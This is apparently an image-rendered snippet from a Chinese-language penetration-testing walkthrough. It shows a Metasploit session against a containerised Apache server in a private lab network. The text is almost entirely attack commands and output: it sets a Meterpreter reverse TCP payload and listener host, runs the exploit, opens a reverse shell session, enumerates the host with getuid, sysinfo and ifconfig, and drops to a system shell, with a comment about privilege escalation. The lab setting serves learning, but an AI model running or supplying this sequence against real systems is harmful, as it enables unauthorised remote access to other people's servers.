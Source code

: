 ```bash
# 当前攻击目标的Id如上所示，为0
set 0 linux/x86/meterpreter/reverse_tcp

# 查看攻击向量的所有可用配置参数
show options

set LHOST 192.168.123.104

exploit

[*] Started reverse TCP handler on 192.168.123.104:4444
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (847604 bytes) to 192.168.123.121
[*] Meterpreter session 1 opened (192.168.123.104:4444 -> 192.168.123.121:48030) at 2018-01-23 21:57:21 +0800

meterpreter > getuid
Server username: uid=1, gid=1, euid=1, egid=1
meterpreter > pwd
/usr/local/apache2/htdocs
meterpreter > sysinfo
Computer     : 172.18.0.2
OS           : Debian 8.7 (Linux 4.10.0-28-generic)
Architecture : x64
Meterpreter  : x86/linux

meterpreter > ifconfig

Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 65536
Flags        : UP,LOOPBACK
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0


Interface 14
============
Name         : eth0
Hardware MAC : 02:42:ac:12:00:02
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 172.18.0.2
IPv4 Netmask : 255.255.0.0

# 启动一个系统shell
shell

# 由于容器环境中默认没有提供 sudo ，所以使用 sudo 提权会失败
```
